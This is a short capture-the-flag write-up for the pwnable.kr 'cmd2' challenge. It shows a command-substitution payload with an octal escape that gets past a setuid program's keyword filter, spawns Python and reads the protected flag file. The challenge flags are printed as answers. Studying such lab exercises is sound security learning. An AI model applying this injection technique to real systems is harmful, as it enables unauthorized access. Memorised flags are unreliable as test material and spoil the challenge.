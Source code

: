 Daddy bought me a system command shell.
but he put some filters to prevent me from playing with it without his permission...
but I wanna play anytime I want!

ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1 - flag: mommy now I get what PATH environment is for :))

=== solve ===
keyword: "printf dash hexadecimal" + "bug" =>https://bugs.launchpad.net/ubuntu/+source/dash/+bug/1499473

```sh
mkdir /tmp/edisc-cmd2
cd /tmp/edisc-cmd2
ln -s $(which python) py

/home/cmd2/cmd2 "\$(echo '.\057py')"
Python 2.7.12 (default, Mar  1 2021, 11:38:31) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> open('/home/cmd2/flag')
<open file '/home/cmd2/flag', mode 'r' at 0x7f6661923540>
>>> r = open('/home/cmd2/flag')
>>> r.read()
'FuN_w1th_5h3ll_v4riabl3s_haha\n'
```

**flag: FuN_w1th_5h3ll_v4riabl3s_haha** 